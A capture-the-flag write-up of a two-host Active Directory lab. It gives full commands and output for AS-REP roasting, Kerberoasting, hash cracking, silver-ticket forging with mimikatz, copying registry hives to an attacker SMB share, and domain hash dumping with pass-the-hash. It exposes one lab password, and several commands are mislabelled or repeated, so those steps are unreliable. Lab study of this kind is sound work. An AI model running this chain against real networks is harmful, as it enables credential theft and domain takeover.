




# Initial enumeration

>its a chain so we have 2 target here:
10.10.170.69
10.10.170.70

## Nmap Scan
    10.10.170.69
    21/tcp   open  ftp           Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_12-26-21  11:50AM       <DIR>          transfer
    | ftp-syst: 
    |_  SYST: Windows_NT
    53/tcp   open  domain        Simple DNS Plus
    80/tcp   open  http          Microsoft IIS httpd 10.0
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: IIS Windows Server
    | http-methods: 
    |_  Potentially risky methods: TRACE
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-07-03 02:12:11Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: lustrous.vl0., Site: Default-First-Site-Name)
    443/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
     ssl-cert: Subject: commonName=LusDC.lustrous.vl
    445/tcp  open  microsoft-ds?
    3389/tcp open  ms-wbt-server Microsoft Terminal Services

    10.10.170.70
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    DNS_Computer_Name: LusMS.lustrous.vl

> we can basicly see here running DC. becuase of 88 and 443 port hit us as LusDC.lustrous.vl.

From the nmap scan of 10.10.170.69, there was an FTP service running and it allowed anonymous login. So we could login to the FTP as anonymous.

    ftp 10.10.170.69
    Connected to 10.10.170.69.
    220 Microsoft FTP Service
    Name (10.10.170.69:user): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password: 
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> ls
    229 Entering Extended Passive Mode (|||50100|)
    150 Opening ASCII mode data connection.
    12-26-21  11:50AM       <DIR>          transfer
    226 Transfer complete.
    ftp> ls transfer
    229 Entering Extended Passive Mode (|||50101|)
    125 Data connection already open; Transfer starting.
    12-26-21  11:51AM       <DIR>          ben.cox
    12-26-21  11:49AM       <DIR>          rachel.parker
    12-26-21  11:49AM       <DIR>          tony.ward
    12-26-21  11:50AM       <DIR>          wayne.taylor
    226 Transfer complete.
    ftp>

Discovered a bunch of possible usernames in the transfer directory. No other interesting data were found within the directories though. However, we got the usernames which would be useful to do further enumeration.

    >cat ftpusers.txt | awk '{print $4}' >users.txt

## AS-REP Roasting
Since we got the usernames, we could perform the AS-REP Roasting which allows us to steal the password hashes of user accounts that have Kerberos preauthentication disabled. GetNPUsers script from the impacket was used to do it, and found that ben.cox had Kerberos preauthentication disabled.

    impacket-GetNPUsers lustrous.vl/ -dc-ip lusdc.lustrous.vl -usersfile users.txt

    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

    $krb5asrep$23$ben.cox@LUSTROUS.VL:<redacted>
    [-] User rachel.parker doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User tony.ward doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User wayne.taylor doesn't have UF_DONT_REQUIRE_PREAUTH set

From the hash, it was possible to crack the plaintext password of the user.

    john ben.cox.hash --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 07/03/24 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 ASIMD 4x])
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    <redacted>         ($krb5asrep$23$ben.cox@LUSTROUS.VL)

After obtaining the password, we can attempt to access the hosts through protocols such as SMB and WinRM. And it was found that ben.cox user could login to the lusms host via the WinRM

`WINRM      10.10.170.70   5985   LUSMS            [+] lustrous.vl\ben.cox:Trinity1 (Pwn3d!)`

On the Desktop, we found an xml representation of a PSCredential Object file named admin.xml.

# First Host
I used this [blog](https://systemweakness.com/powershell-credentials-for-pentesters-securestring-pscredentials-787263abf9d8) for got password successfully from admim

    $user = "LUSMS\Administrator" 

    $pass = "01000000d08c9ddf0115d1118c7a00c04fc297....." | ConvertTo-SecureString

    $cred = New-Object System.Management.Automation.PSCredential($user, $pass)

    *Evil-WinRM* PS C:\Users\ben.cox\Desktop> $cred.GetNetworkCredential() | fl

    UserName       : Administrator
    Password       : <redacted>
    SecurePassword : System.Security.SecureString
    Domain         : LUSMS

We can then login to the host using the administrator account, and red the flag.

## 10.10.170.69-DC

Lusms host was now fully under our control as we obtained administrator access. Returning to the lusc host, I couldn't find much of value aside from some data like usernames (including ben.cox credentials). Post-exploitation tasks such as gathering credentials on the lusms host yielded no results either. Therefore, I decided to RDP into the host using the administrator credentials.

`➜  Lustrous xfreerdp /u:administrator /p:'<redacted>' /v:10.10.170.70`

First of all i copied all users for some enumeration if needed.

    Allan.Parker             Ben.Cox
    Bradley.Hancock          Brenda.Andrews           Cameron.Walsh
    Colin.Dodd               Deborah.Harris           Donna.Collins
    Duncan.Spencer           Guest                    Hugh.Wilkinson
    Iain.Evans               Jeremy.Clark             Joanna.Hall
    Joanna.Harvey            krbtgt                   Liam.Atkinson
    Marian.Elliott           Michelle.John            Mitchell.Fuller
    Rachel.Parker            svc_db                   svc_web
    Tony.Ward                Tracy.Roberts            Wayne.Taylor

First of all i 

As we already got some credentials, we could login to the application. Used ben.cox credentials to login, and browsing around the application didn’t find anything useful.

Among many AD users, tony.ward seemed to be a promising one as he was a member of backup admins group. Hence, if we are somehow able to gain access to the tony.ward account, we could escalate our privileges by abusing the [backup admins privileges](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators-1).

### Kerberoast
In Active Directory, one of the attacks that involves service account is [silver ticket attack](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets). So if we manage to get the NTLM hash of the service account, svc_web, we can generate a silver ticket and impersonate any user against the web application.

We can use the previous GetUserSPNs script again to perform the Kerberoasting attack.

    john svc_web.hash --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 07/03/24 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 ASIMD 4x])
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    <redacted>         (?)

Since we now have the password, we can convert it into the NTLM hash using python or u can use online directly.

    import hashlib

    password = "iydgT...."
    password_bytes = password.encode("utf-16le")
    md4_hash = hashlib.new("md4", password_bytes).digest()
    ntlm_hash = md4_hash.hex()
    print(ntlm_hash)

>E67AF8B3D78DF5A0.....<redacted>

## Silver Ticket Attack

Now we got the NTLM hash of the svc_web service account. In order to perform the silver ticket attack, we still need to know domain, and target user SIDs. The following wmic command can be use to extract the necessary information.

    mimikatz # kerberos::golden /sid:S-1-5-21-698106580-430135868-959541345-500 /domain:lustrous.vllustrous.vl /ptt /id:1114 /target:lusdc.lustrous.vl /service:http /rc4:E67AF8B3D78DF5....... /user:Tony.Ward
    User      : Tony.Ward
    Domain    : lustrous.vllustrous.vl (LUSTROUS)
    SID       : S-1-5-21-698106580-430135868-959541345-500
    User Id   : 1114
    Groups Id : *513 512 520 518 519 
    ServiceKey: e67af8b3d78df5a02eb0d57b6cb60717 - rc4_hmac_nt      
    Service   : http
    Target    : lusdc.lustrous.vl
    Lifetime  : 7/1/2024 2:51:45 AM ; 6/29/2034 2:51:45 AM ; 6/29/2034 2:51:45 AM
    -> Ticket : ** Pass The Ticket **

    * PAC generated
    * PAC signed
    * EncTicketPart generated
    * EncTicketPart encrypted
    * KrbCred generated

    Golden ticket for 'Tony.Ward @ lustrous.vllustrous.vl' successfully submitted for current session

-----------------------------------------------------------------------------------------------------

    *Evil-WinRM* PS C:\ProgramData> klist

    Current LogonId is 0:0x38f90f

    Cached Tickets: (1)

    #0>     Client: Tony.Ward @ lustrous.vllustrous.vl
        Server: http/lusdc.lustrous.vl @ lustrous.vllustrous.vl
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 7/1/2024 2:51:45 (local)
        End Time:   6/29/2034 2:51:45 (local)
        Renew Time: 6/29/2034 2:51:45 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called

After that we can use the PowerShell Invoke-WebRequest cmdlet with the UseDefaultCredentials flag to access the web application in the context of tony.ward user.

    >(iwr http://lusdc.lustrous.vl/Internal -UseBasicParsing -UseDefaultCredentials).Content
        .
        .
        .
        [snip]
        .
        .
        U_cPCQq<redacted>

## Abusing the Backup Admins Privileges

U may wanna use this [PoC](https://raw.githubusercontent.com/Wh04m1001/Random/main/BackupOperators.cpp) but i decided to do this with reg.py

    impacket-smbserver smb share/ -smb2support

    impacket-reg lustrous.vl/'tony.ward':'<redacted>'@10.10.170.69 -dc-ip 10.10.170.69 backup -o \\\\10.8.2.152\\smb

This may take some time, as the SYSTEM database is a really large file. I’ve also ran into a few NETBIOS timeouts when running this, feel free to do a bit of trial and error with this tool. There also is an alternative with BackupOperatorToDA, which will perform a similar action.

Another note, I’ve had luck downloading the registry hives individually, you can do so with the below commands. Just make sure to wait a bit in between downloads so you don’t receive an invalid handle error.

    impacket-reg lustrous.vl/'tony.ward':'<redacted>'@10.10.170.69 save -keyName 'HKLM\SAM' -o \\\\10.8.2.152\\smb_share
    impacket-reg lustrous.vl/'tony.ward':'<redacted>'@10.10.170.69 save -keyName 'HKLM\SECURITY' -o \\\\10.8.2.152\\smb_share
    impacket-reg lustrous.vl/'tony.ward':'<redacted>'@10.10.170.69 save -keyName 'HKLM\SECURITY' -o \\\\10.8.2.152\\smb_share

After it’s finished, you should have all three files in the respective directory you used for the SMB server. We can now use these three files to dump the machine account NTLM hash for LUSDC$. (Make sure to close out of your SMB server so you don’t receive a read-length error)

    impacket-secretsdump -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL

    [*] Target system bootKey: 0x9619c4c8e8d0c1e1314ca899f5573926
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    ......
    $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:[...snip...]

The NTLM hash for the LUSDC$ has the username identifier $MACHINE.ACC. Although these names are different, this is the same user. Now that we have credentials to the machine account, we can use impacket-secretsdump once more to dump the Administrator user’s NTLM hash.

     impacket-secretsdump lustrous.vl/'LUSDC$'@lusdc.lustrous.vl -hashes aad3b435b51404eeaad3b435b51404ee:[...snip...] -just-dc-user Administrator

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:[...snip...]:::

ANND BOOOOOMMMMM!!!!!!!!!!!!!!!!!!!!!

    ➜  Lustrous evil-winrm -i 10.10.238.85 -u 'administrator' -H 'b8d9c7<redacted>'
                                        
    Evil-WinRM shell v3.5
                                        
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                         
                                        
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                           
                                        
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    lustrous\administrator